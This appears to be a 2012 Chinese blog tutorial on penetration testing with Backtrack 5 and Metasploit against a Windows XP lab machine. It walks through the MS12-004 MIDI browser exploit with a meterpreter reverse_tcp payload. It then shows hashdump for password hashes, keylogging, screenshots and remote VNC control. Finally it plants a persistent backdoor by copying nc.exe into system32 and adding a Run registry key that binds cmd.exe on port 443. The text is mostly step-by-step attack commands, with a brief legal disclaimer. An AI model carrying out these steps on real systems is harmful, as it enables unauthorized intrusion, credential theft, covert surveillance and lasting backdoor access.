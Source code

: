 ```yaml
---
title: 利用Metasploit进行渗透测试
tags:
  - Backtrack
  - Breaker
  - BT5
  - Metasploit
  - meterpreter
  - Netcat
  - 漏洞
id: 165
categories:
  - Hacking
date: 2012-04-11 11:35:53
---
```


**声明：本教程仅限供广大网络安全爱好者交流学习之用，任何人不得用于非法用途，否则后果自负。**
最近在玩Backtrack 5 ，就把最近学到的东西分享下,所有工具都是Backtrack 5 自带的，用到的工具 ： 大名鼎鼎的`Metasploit Feamwork`    还有 `Netcat`

要利用的漏洞：MS12-004 ，虽然漏洞是几个月前出的了，但这里只做渗透演示，重点在讲解工具的使用方法。废话不说，看步骤 ：

<!--more-->

在控制台执行`msfconsole`启动Metasploit  ，
![](http://pic.0x7c00.cn/metasploit/1.png)

输入命令`search ms12_004`我们来找找ms12-004漏洞的利用模块
![](http://pic.0x7c00.cn/metasploit/2.png)
已经找到了，接下来使用该模块

输入命令  `use exploits/windows/browser/ms12_004_midi`
![](http://pic.0x7c00.cn/metasploit/3.png)
接下来输入命令 `show options` ，显示该漏洞的基本信息，以及要设置的参数
![](http://pic.0x7c00.cn/metasploit/4.png)


设置参数：

输入命令 ： 
```bash
set  SRVHOST  192.168.42.139
Set  PAYLOAD  windows/meterpreter/reverse_tcp
Set  LHOST  192.168.42.130
Set  URIOATH  /
```

最后 再输入`show options` ，查看是否设置好
![](http://pic.0x7c00.cn/metasploit/5.png)


已经OK了，开始渗透。
执行命令 ：`exploit`
![](http://pic.0x7c00.cn/metasploit/6.png)

可以看到服务已经启动了，链接地址[http://192.168.42.130:8080/](http://192.168.42.130:8080/)
在用Xp打开恶意链接地址 [http://192.168.42.130:8080/](http://192.168.42.130:8080/)
![](http://pic.0x7c00.cn/metasploit/7.png)

BackTrack 开始渗透，
这边BT5已经有反应了 ，渗透成功~
![](http://pic.0x7c00.cn/metasploit/8.png)

输入命令 `sessions`
![](http://pic.0x7c00.cn/metasploit/9.png)

我们看到有一个会话，会话的 ID 是1  ，开打开这个会话
输入命令 `sessions  -i  1` 这时，我们已经进入了Meterpreter
![](http://pic.0x7c00.cn/metasploit/10.png)

Meterpreter 是一个很强大的 payload ， 具体说明输入 help 可以看到，
`meterpreter> hashdump` // 可以看到远程主机帐号和加密后的密码
![](http://pic.0x7c00.cn/metasploit/11.png)

这里再说几个常用的Meterpreter  命令

```bash
meterpreter> keyscan_start   //开启键盘记录
meterpreter> heyscan_dump    //  查看键盘记录的内容
meterpreter> keyscan_stop    //  关闭键盘记录
meterpreter> shell           //看下图大家都懂的
```
![](http://pic.0x7c00.cn/metasploit/12.png)

`meterpreter > ps` //  获取远程主机进程列表，比windows自带的任务管理器清晰多了
![](http://pic.0x7c00.cn/metasploit/13.png)

`meterpreter>screenshot`//  截取远程桌面屏幕
![](http://pic.0x7c00.cn/metasploit/14.png)

`meterpreter > run vnc` // 开启远程主机vnc 服务
过一会，可以看到桌面，并且可以控制鼠标和键盘

![](http://pic.0x7c00.cn/metasploit/15.png)


好，下来我们来留后门，方便以后常来 ~
先上传 nc.exe（netcant）到windows的systen32文件夹下
Upload   /pentest/windows-binaries/tools/nc.exe   c:\windows\system32
![](http://pic.0x7c00.cn/metasploit/16.png)

已经成功了，下来我们将nc.exe加到注册表，让他开机自启动
先查看注册表

`reg enumkey  -k  HKLM\SOFTWARE\Miorosoft\Windows\CurrentVersion\Run`
![](http://pic.0x7c00.cn/metasploit/17.png)

已经可以看到注册表键值了
下来加入注册表

`reg  setval  -k  HKLM\SOFTWARE\Miorosoft\Windows\CurrentVersion\Run  -v  backdoor  -d  c:\windows\system32\nc.exe"-L  -d  -p  443  cmd.exe"`
![](http://pic.0x7c00.cn/metasploit/18.png)

提示成功，看看XP的注册表
![](http://pic.0x7c00.cn/metasploit/19.png)

已经有了这个键值
我们重启远程主机试下

输命令 `reboot`
![](http://pic.0x7c00.cn/metasploit/20.png)

由于远程主机已经关闭，显示链接断开 ，等xp重启后，我们试试留的后门
Telnet   192.168.42.139   443

![](http://pic.0x7c00.cn/metasploit/21.png)
已经连接成功了  : )  .。刚接触BT5，各位见笑了  ... 论坛有玩B5或者 Metasploit 的朋友可以联系我，求交流。

QQ :791628659

本文地址[http://0x7c00.cn/2012/Penetration-testing-with-Metasploit/](http://0x7c00.cn/2012/Penetration-testing-with-Metasploit/)
2012年4月10日11:34:16
